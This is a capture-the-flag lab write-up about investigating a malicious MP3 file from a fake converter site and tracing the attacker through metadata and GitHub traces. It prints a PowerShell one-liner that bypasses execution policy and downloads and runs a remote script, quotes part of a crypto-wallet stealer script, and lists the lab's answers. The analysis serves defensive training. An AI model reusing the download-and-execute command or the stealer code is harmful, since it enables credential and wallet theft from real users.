

# Day 1: OPSEC

## Learning Objectives
- Investigate malicious link files.
- Understand OPSEC principles and common mistakes.
- Learn how to track digital identities in cyber investigations.

---

## Introduction
Operational Security (OPSEC) refers to tactics used to protect sensitive information from adversaries. In this challenge, we investigate a suspicious YouTube-to-MP3 converter website shared among SOC-mas organizers after reports of malicious behavior.

---

## Investigating the Website

### Risks of YouTube-to-MP3 Converters
These websites often pose significant risks, such as:
- **Malvertising:** Exploiting vulnerabilities via malicious ads.
- **Phishing Scams:** Tricking users into revealing sensitive information.
- **Bundled Malware:** Distributing malware disguised as legitimate files.

---

## File Analysis

### Extracted Files
After downloading from the website, two files were extracted: `song.mp3` and `somg.mp3`. The unusual filename `somg.mp3` raised suspicion.

#### Analyzing `song.mp3`
```bash
file song.mp3
```
Output:
```
Audio file with ID3 version 2.3.0...
```
This file appears to be a legitimate MP3 audio file.

#### Analyzing `somg.mp3`
```bash
file somg.mp3
```
Output shows suspicious metadata indicating a PowerShell command embedded within the file.

---

## Metadata Analysis with Exiftool
Using `exiftool`, we uncover additional details about `somg.mp3`:

```bash
exiftool somg.mp3
```

Key findings include:

- **Relative Path:** `..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`
  - *Why it’s suspicious:* The relative path points to the PowerShell executable, which is often used by attackers to execute malicious scripts or commands on a victim's system. This suggests that the file is designed to invoke PowerShell as part of its payload.

- **Command Line Arguments:**
  ```plaintext
  -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
  ```
  - *Why it’s suspicious:* 
    - **`-ep Bypass`**: Disables PowerShell's execution policy, allowing potentially unsafe scripts to run.
    - **`-nop`**: Suppresses warnings, making detection harder.
    - **`(New-Object Net.WebClient).DownloadFile(...)`**: Downloads a malicious script (`IS.ps1`) from a remote server.
    - **`iex (Get-Content ...)`**: Executes the downloaded script in memory without saving it to disk, which is a common evasion technique used by attackers.
    
    This behavior indicates a Command-and-Control (C2) operation where stolen data could be exfiltrated or additional payloads executed remotely.

- **Machine ID:** `win-base-2019`
  - *Why it’s relevant:* This metadata reveals the operating system environment in which the malicious file was created or tested. It provides insight into the attacker's setup and can be used for attribution.

These metadata fields collectively indicate that `somg.mp3` is not a legitimate file but instead a malicious payload designed to execute a PowerShell script, potentially compromising the victim's system.

---

## Malicious PowerShell Script
The script attempts to steal sensitive information such as cryptocurrency wallets and browser credentials. Below is a snippet of the malicious script:

```powershell
function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
}

# Path for the info file
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
    foreach ($path in $walletPaths) {
        if (Test-Path $path) {
            Add-Content -Path $infoFilePath -Value "Found wallet: $path"
        }
    }
}
```

The script is designed to:
1. Print ASCII art for attribution.
2. Search for cryptocurrency wallet files and browser credentials.
3. Send stolen data to a Command-and-Control (C2) server.

---

## OPSEC Mistakes
This case highlights several common OPSEC failures by attackers:

1. **Reusing Identifiable Metadata**:
   - Metadata in `somg.mp3` revealed critical details such as machine ID (`win-base-2019`) and working directory (`C:\Windows\System32\WindowsPowerShell\v1.0`). These details could be used for attribution or tracking back to the attacker’s environment.

2. **Posting Sensitive Details Publicly**:
   - The attacker left traces on GitHub, exposing their identity ("M.M.") and intentions. For example, their GitHub repository hosted the malicious script (`IS.ps1`) used in this attack.

3. **Failing to Use Anonymization Tools**:
   - Lack of proper anonymization, such as VPNs or proxies, allowed investigators to trace their activities more easily.

---

## Questions & Answers

1. **Who is the author of `song.mp3`?**
   - Tyler Ramsbey

2. **What is the URL of the C2 server?**
   - http://papash3ll.thm/data  
       
     *Figure 1: Output showing the C2 server URL from metadata analysis.*

3. **Who is M.M.?**
   - Mayor Malware

4. **What is the number of commits on the GitHub repo where the issue was raised?**
   - 1  
       
     *Figure 2: Output shows the number of commits (+1).*

---

## Conclusion
This challenge demonstrates how poor OPSEC practices can expose attackers' identities and operations. By analyzing suspicious files and investigating metadata, cybersecurity professionals can uncover critical evidence in cyber investigations.

<<<<<<< HEAD
---
=======
---
>>>>>>> fdcc249714b1fae34ce86394f32307238bdcb5ab
